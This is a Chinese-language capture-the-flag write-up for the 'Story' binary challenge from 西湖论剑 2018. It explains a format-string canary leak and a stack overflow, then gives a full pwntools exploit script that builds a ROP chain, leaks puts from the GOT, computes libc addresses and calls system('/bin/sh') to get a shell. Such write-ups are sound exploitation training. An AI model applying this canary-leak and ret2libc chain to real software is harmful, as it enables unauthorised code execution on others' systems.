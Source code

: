```yaml
---

---
```


# Story

西湖论剑2018  Stack_overflow  ROP  



## 分析

首先，判断程序的保护。发现栈上有Canary，尝试泄露。

![](./index_files/1572523527392.png)

**第一个洞：格式化字符串。**在静态分析中看到格式化字符串，尝试通过格式化字符串进行泄露。通过搭配gdb，确定Canary的位置（64位的优先级与32位不同，64位会优先考虑6个寄存器，随后再对栈进行考虑。）为第23个参数，因此通过 %23$p 泄露Canary的位置。

![](./index_files/1572524306024.png)

**第二个洞：栈溢出。**在输入“输入字符串长度”之后，如果申请的空间小于128，会自动给开1024大小。然后读取字符串到s中，而s在栈中的位置为0x90，因此通过构造字符串可触发栈溢出。而之前通过格式化字符串获取到了Canary的大小，可以在这里用到。

![](./index_files/1572524381739.png)

![](./index_files/1572524626816.png)

![](./index_files/1572524937703.png)

因此，我们需要覆盖
$$
0x90-0x8=0x88
$$
个A至Canary，然后将之前泄露的Canary值覆盖至此，然后通过8个字符A覆盖返回值，之后即可控制下一步执行的函数。

通过ROPgadget找到其中的ROP关键字

```assembly
pop rdi ; ret
```

来将函数参数入寄存器。

通过调用put函数将got表中的put输出，即可获取put的实际位置，从而计算出libc的偏移。在触发之后，通过ret到main函数地址来重新触发栈溢出，通过偏移计算出system和/bin/sh的地址，获取权限。



## EXP

```python
import pwn
from pwn import *

p = process('./story')
#p = remote('ctf3.linkedbyx.com',11375)
context.log_level = 'debug'
context.endian = 'little'

elf = ELF('./story')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

payload1 = '%23$p'
payload2 = '-1024'

puts_plt = elf.symbols["puts"]
puts_got = elf.got["puts"]
start_main = 0x400876
rdi = 0x400bd3 #pop rdi ; ret

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)
p.recvuntil("Hello ")
canary = int(p.recvuntil("\n"),16)
print hex(canary)
print hex(puts_plt)
print hex(puts_got)
print hex(rdi)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

p.recvuntil("You can speak your story:\n")

payload3 = "A" * 136
payload3 += p64(canary)
payload3 += "A" * 8
payload3 += p64(rdi)
payload3 += p64(puts_got)
payload3 += p64(puts_plt) 
payload3 += p64(start_main)

p.sendline(payload3)


data =  p.recvuntil("\n", drop=True)
puts = u64(data.ljust(8,'\x00'))
print hex(puts)
print puts

system_addr = puts-libc.symbols["puts"]+libc.symbols["system"]

print hex(system_addr)

p.recvuntil("Please Tell Your ID:")
p.sendline(payload1)

p.recvuntil("Tell me the size of your story:\n")
p.sendline(payload2)

binsh = next(libc.search('/bin/sh'))
binsh_addr = puts-libc.symbols["puts"]+binsh
print hex(binsh_addr)
payload4 = "A" * 136
payload4 += p64(canary)
payload4 += "A" * 8
payload4 += p64(rdi)
payload4 += p64(binsh_addr)
payload4 += p64(system_addr)

p.recvuntil("You can speak your story:\n")
p.sendline(payload4)


p.interactive()

```

